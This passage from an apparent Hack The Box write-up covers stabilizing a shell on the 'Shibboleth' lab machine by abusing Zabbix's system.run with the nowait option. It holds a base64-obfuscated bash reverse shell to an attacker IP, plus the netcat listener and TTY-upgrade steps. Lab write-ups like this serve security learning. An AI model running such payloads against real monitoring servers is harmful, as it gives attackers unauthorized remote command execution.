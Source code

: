 Interestingly, I didn’t type `exit`. That came from Zabbix.

#### Stabilize

I had this same issue on [Zipper](/2019/02/23/htb-zipper.html#stable-shell). There, I solved it by having my listener set up to issue commands back that generated a new shell in a new Perl process. I did test that, and it works here, but it’s unnecessary.

On the [Zabbix Agent documentation page](https://www.zabbix.com/documentation/5.0/en/manual/config/items/itemtypes/zabbix_agent), the section for `system.run` gives some detail of how it works:

[![image-20220331080244452](https://0xdfimages.gitlab.io/img/image-20220331080244452.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220331080244452.png)

It takes a command and an optional `wait` or `nowait`. With `nowait`, it returns 1 and doesn’t wait for execution to finish.

I’ll update my Key to:

```

system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash, nowait]

```

On pushing “Get value” the value immediately updates to 1, and the shell connects, and doesn’t die.

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.124 43058
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$

```

I’ll upgrade it using the standard `script` trick:

```

zabbix@shibboleth:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
zabbix@shibboleth:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
zabbix@shibboleth:/$

```
